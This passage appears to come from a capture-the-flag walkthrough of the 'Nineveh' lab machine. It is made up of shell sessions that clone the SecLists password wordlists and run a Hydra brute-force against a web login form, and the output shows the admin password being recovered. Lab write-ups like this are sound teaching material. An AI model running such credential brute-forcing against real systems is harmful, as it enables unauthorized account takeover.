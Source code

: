 ###### Hydra

```sh
root@kali:~/nineveh# git clone https://github.com/danielmiessler/SecLists.git
Cloning into 'SecLists'...
remote: Counting objects: 1891, done.
remote: Compressing objects: 100% (25/25), done.
remote: Total 1891 (delta 46), reused 65 (delta 46), pack-reused 1817
Receiving objects: 100% (1891/1891), 432.97 MiB | 7.11 MiB/s, done.
Resolving deltas: 100% (886/886), done.
root@kali:~/nineveh# cd SecLists/
root@kali:~/nineveh/SecLists# ls
Discovery  Fuzzing  IOCs  Miscellaneous  OLDREADME.md  Passwords  Pattern_Matching  Payloads  README.md  Usernames
root@kali:~/nineveh/SecLists# cd Passwords/
root@kali:~/nineveh/SecLists/Passwords# ls
 10k_most_common.txt                       bible-withcount.txt          hak5.txt                      myspace.txt                     rockyou-30.txt              splashdata_2015.txt
 10_million_password_list_top_100000.txt   carders.cc.txt               hak5-withcount.txt            myspace-withcount.txt           rockyou-35.txt              SplashData-2015.txt
 10_million_password_list_top_10000.txt    common-passwords-win.txt     hotmail.txt                   password-permutations.txt       rockyou-40.txt              Sucuri_Top_Wordpress_Passwords.txt
 10_million_password_list_top_1000.txt     conficker.txt                john.txt                      passwords_clarkson_82.txt       rockyou-45.txt              top-20-common-SSH-passwords
 10_million_password_list_top_100.txt      darkweb2017_top100.txt       KeyboardCombinations.txt      passwords_john.txt              rockyou-50.txt              top_shortlist.txt
 10_million_password_list_top_500.txt      darkweb2017_top10K.txt       korelogic-password.txt        passwords_youporn2012_raw.txt   rockyou-55.txt              tuscl.txt
 1337speak.txt                             darkweb2017_top10.txt        Lizard_Squad.txt              passwords_youporn2012.txt       rockyou-5.txt               twitter-banned.txt
 500-worst-passwords.txt                   darkweb2017_top1K.txt        medical_devices.txt           porn-unknown.txt                rockyou-60.txt              UserPassJay.txt
 adobe100.txt                             'default-passwords 2.csv'     mil-dic.txt                   porn-unknown-withcount.txt      rockyou-65.txt              wordpress_attacks_july2014.txt
 Basic_Spanish_List.txt                   'default-passwords 3.csv'     mirai_botnet.txt              README                          rockyou-70.txt
 best1050.txt                              elitehacker.txt              MostPopularLetterPasses.txt   rockyou-10.txt                  rockyou-75.txt
 best110.txt                               elitehacker-withcount.txt    mubix_izmy.txt                rockyou-15.txt                  singles.org.txt
 best15.txt                                faithwriters.txt             muslimMatch.txt               rockyou-20.txt                  singles.org-withcount.txt
 bible.txt                                 faithwriters-withcount.txt   muslimMatch-withCount.txt     rockyou-25.txt                  splashdata_2014.txt
root@kali:~/nineveh/SecLists/Passwords# less 10k_most_common.txt
```

```sh
root@kali:~/nineveh# hydra -l admin -P SecLists/Passwords/10k_most_common.txt 10.10.10.43 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid" -t 64
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2018-01-26 01:59:50
[DATA] max 64 tasks per 1 server, overall 64 tasks, 10000 login tries (l:1/p:0), ~10000 tries per task
[DATA] attacking http-post-form://10.10.10.43:80//department/login.php:username=^USER^&password=^PASS^:Invalid
[STATUS] 2498.00 tries/min, 2498 tries in 00:00h, 0 to do in 01:00h, 7502 active
[STATUS] 2575.67 tries/min, 7727 tries in 00:00h, 0 to do in 03:00h, 2273 active
[80][http-post-form] host: 10.10.10.43   login: admin   password: 1q2w3e4r5t
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 4 final worker threads did not complete until end.
[ERROR] 4 targets did not resolve or could not be connected
[ERROR] 64 targets did not complete
```